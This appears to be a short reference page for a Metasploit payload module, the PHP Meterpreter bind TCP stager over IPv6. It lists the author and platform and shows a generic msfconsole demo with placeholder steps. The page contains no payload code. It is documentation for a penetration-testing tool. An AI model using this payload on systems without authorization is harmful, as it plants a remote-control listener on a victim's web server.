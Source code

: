 ## PHP Meterpreter, Bind TCP Stager IPv6

Run a meterpreter server in PHP. Listen for a connection 
over IPv6


## Module Name
payload/php/meterpreter/bind_tcp_ipv6

## Authors
* egypt





## Platforms
* php

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/php/meterpreter/bind_tcp_ipv6
msf payload(bind_tcp_ipv6) > show targets
   ... a list of targets ...
msf payload(bind_tcp_ipv6) > set TARGET <target-id>
msf payload(bind_tcp_ipv6) > show options
   ... show and set options ...
msf payload(bind_tcp_ipv6) > run
```
    
    